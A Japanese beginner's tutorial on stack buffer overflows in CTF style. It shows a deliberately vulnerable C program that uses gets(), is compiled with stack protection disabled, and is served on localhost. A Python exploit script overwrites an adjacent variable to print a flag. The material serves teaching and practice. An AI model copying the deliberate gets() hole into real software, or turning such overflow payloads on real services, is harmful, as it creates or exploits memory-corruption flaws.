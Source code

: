 # PWNオーバーフロー入門: 変数の値を書き換える

## 概要

自分でPWNをいろいろ試す用のコード

## pwn_server.py

接続が来たら標準入出力を持つプログラムにプロセスを受け渡すプログラム。
標準入力に脆弱性を仕掛けておけばよいので楽

## 最も単純なPWN

```c:overflow01.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void saru(){
  char buf[16];
  int secret = 0;

  gets(buf);

  if (secret == 0xaabbccdd){
    puts("flag is OSAKA_UNIV_CTF");
  }else{
    printf("buf[] = %s\n", buf);
    printf("The secret is %x\n", secret);
  }
}

int main(){
  saru();

  return 0;
}
```

bufでオーバーフローを起こさせてsecretを書き換えてflagを出力させる。

まずは何も考えずにコンパイルしてみた。

```bash-session
$ gcc overflow01.c -o overflow01
overflow01.c: In function ‘saru’:
overflow01.c:9:3: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   gets(buf);
   ^~~~
   fgets
/tmp/ccrGzHYJ.o: In function `saru':
overflow01.c:(.text+0x2b): warning: the `gets' function is dangerous and should not be used.
$
```

gets危険だから使うなというwarningは出るけど一応コンパイルはできる。
サーバとして起動してみてtelnetで長い文字列を送り付けてみた。

```bash-sessoin
$ telnet localhost 28080
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
*** stack smashing detected ***: <unknown> terminated
Connection closed by foreign host.
$
```

するとstack smashing protection (SSP)のせいで落ちる。
SSPはcanaryを使ってスタックの書き換えを検知するやつらしい。
変数の順番も入れ替わるのか？

SSPを無効にするために-fno-stack-protectorオプションをつけてみた。

```bash-session
saru@lucifen:~/pwn001$ gcc overflow01.c -fno-stack-protector -o overflow01
overflow01.c: In function ‘saru’:
overflow01.c:9:3: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   gets(buf);
   ^~~~
   fgets
/tmp/cc7I14bT.o: In function `saru':
overflow01.c:(.text+0x1c): warning: the `gets' function is dangerous and should not be used.
saru@lucifen:~/pwn001$
```

そしてtelnetで攻撃。

```bash-session
saru@lucifen:~/pwn001$ telnet localhost 28080
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
buf[] = aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
The secret is d6161
Connection closed by foreign host.
saru@lucifen:~/pwn001$
```

無事にsecretを書き換えられたっぽい。

-fno-stack-protectorオプションを付けたときとつけなかったときのsecretとbufのアドレスが気になるのでチェックしてみた。

まずはSSPありバージョン

```bash-session
saru@lucifen:~/pwn001$ ./overflow01
buf address = f77afc20
secret address = f77afc1c
aaa
buf[] = aaa
The secret is 0
saru@lucifen:~/pwn001$
```

次にSSPなしバージョン

```bash-session
saru@lucifen:~/pwn001$ ./overflow01
buf address = 4c09df90
secret address = 4c09df8c
aaa
buf[] = aaa
The secret is 0
saru@lucifen:~/pwn001$
```

かわらない？
ということはSSPありでも書き換えられる？

0xf77afc20 - 0xf77afc1c = 4

0x4c09df90 - 0x4c09df8c = 4

なんかprintfでアドレス出力しているせいで配置が変わっているみたい．．．
最適化オプション-O3をつけても書き換えがうまくいかなくなるのでメモリ配置はかなり繊細っぽい。

## exploit codeを書いてみる

良く分からないのでとりあえずprintfでsecretの書き換えが成功している状態のものをexploit codeで書き換えるのを試してみることにする。

いろいろ試していたところ、どうやら改行コードを送るタイミングでsegmentation faultを起こしてしまいうまくsecretだけ書き換えることができない。

ので脆弱性を持っているコードを若干修正。

```c:overflow01.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void saru(){
  char buf[16];
  int dummy = 0x1234;
  int secret = 0;


  gets(buf);

  if (secret == 0xaabbccdd){
    puts("flag is HANDAI_CTF");
  }else{
    printf("buf[] = %s\n", buf);
    printf("The secret is %x\n", secret);
  }
}

int main(int argc, char **argv){
  saru();

  return 0;
}
```

そしてexploitコード。

```python:exploit01.py
import socket
import time



def main():
    buf = b'A' * 24
    buf += b'\xdd\xcc\xbb\xaa'
    buf += b'\n'
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("localhost", 28080))
    time.sleep(1)
    print(buf)
    sock.sendall(buf)
    s = sock.recv(100)
    print(s.decode(errors='replace'))



if __name__ == "__main__":
    main()
```

うまくflagが取れた。

```bash-session
saru@lucifen:~/pwn001$ python exploit01.py
b'AAAAAAAAAAAAAAAAAAAAAAAA\xdd\xcc\xbb\xaa\n'
flag is HANDAI_CTF

saru@lucifen:~/pwn001$
```


## 参考サイト

[PWN入門](https://gist.github.com/matsubara0507/72dc50c89200a09f7c61)

